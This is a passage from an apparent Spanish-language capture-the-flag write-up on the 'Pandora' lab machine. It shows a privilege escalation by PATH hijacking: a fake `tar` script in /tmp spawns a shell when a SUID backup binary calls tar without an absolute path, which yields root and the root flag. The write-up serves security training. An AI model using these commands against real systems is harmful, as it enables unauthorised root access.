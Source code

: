 ```bash
+++ exited (status 1) +++
```

- Bueno pues como a nivel de sistema se esta ejecutando `tar` podemos hacer un `PATH Hijacking` ya que se esta haciendo de forma relativa y debería ser absoluta para evitarlo.

- Tendría que usarse de esta forma.

```bash
matt@pandora:~$ which tar
/usr/bin/tar
```

- Este es el PATH.

```bash
matt@pandora:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- Lo que vamos a hacer es que nos de una `Bash` como `root` ya que `root` es la persona que esta ejecutando el binario al crearnos un archivo llamado `tar` le vamos a decir que el `PATH` comience desde donde nosotros le indiquemos que es en esta ruta para que tome nuestro `tar` y no el `/usr/bin/tar` que esa es su ruta absoluta pero aprovechándonos de que en el binario no se esta haciendo de manera correcta la llamada a `/usr/bin/tar` es por eso que podemos alterar esto.

```bash
matt@pandora:~$ cd /tmp
matt@pandora:/tmp$ touch tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ nano tar
matt@pandora:/tmp$ cat tar
/usr/bin/sh
```

- Ahora el `PATH` comienza en `tmp` y como va buscar el `tar` y el `tar` lo tenemos en `tmp` pues como allí lo va a encontrar va a ejecutar el de nosotros y no va a llegar ala ruta donde si esta el `tar` correcto gracias a esto ejecutara la instrucción que indicamos que es darnos una sh.

```bash
matt@pandora:/tmp$ export PATH=/tmp:$PATH
matt@pandora:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

## Shell as root

- Ahora si lo ejecutamos vamos a obtener una `shell` como el usuario `root`.

```bash
matt@pandora:/tmp$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# whoami
root
# bash
root@pandora:/tmp# cat /root/root.txt
774d751ca4a7eabaed28a386f20a26c2
```
